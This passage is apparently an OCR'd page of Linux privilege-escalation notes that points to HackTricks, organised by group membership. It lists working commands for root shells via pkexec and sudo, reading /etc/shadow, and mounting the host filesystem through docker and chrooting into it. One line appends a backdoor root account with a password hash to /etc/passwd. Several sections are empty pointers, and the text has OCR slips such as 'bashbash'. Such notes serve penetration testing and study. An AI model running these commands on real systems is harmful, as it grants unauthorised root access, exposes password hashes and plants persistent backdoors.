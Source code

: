 Method 2
If you find that the binary **pkexec is a SUID binary** and you belong to **sudo** or **admin**, you could probably execute binaries as sudo using `pkexec`.

```bash
pkexec "/bin/sh"
```

If you get error go to hacktricks they have the solution.

#### Wheel
**Sometimes**, **by default** inside the **/etc/sudoers** file you can find this line:

```
%wheel	ALL=(ALL:ALL) ALL
```

This means that **any user that belongs to the group wheel can execute anything as sudo**.

If this is the case, to **become root you can just execute**:

```
sudo su
```

#### Shadow

```
cat /etc/shadow
```

#### Staff

On Hacktricks

#### Video

Check Hacktricks

#### Root

**Check which files root members can modify**:

```bash
find / -group root -perm -g=w 2>/dev/null
```

#### Docker

```bash
docker image #Get images from the docker service

#Get a shell inside a docker container with access as root to the filesystem
docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash
#If you want full access from the host, create a backdoor in the passwd file
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /etc/passwd

#Ifyou just want filesystem and network access you can startthe following container:
docker run --rm -it --pid=host --net=host --privileged -v /:/mnt <imagename> chroot /mnt bashbash
```
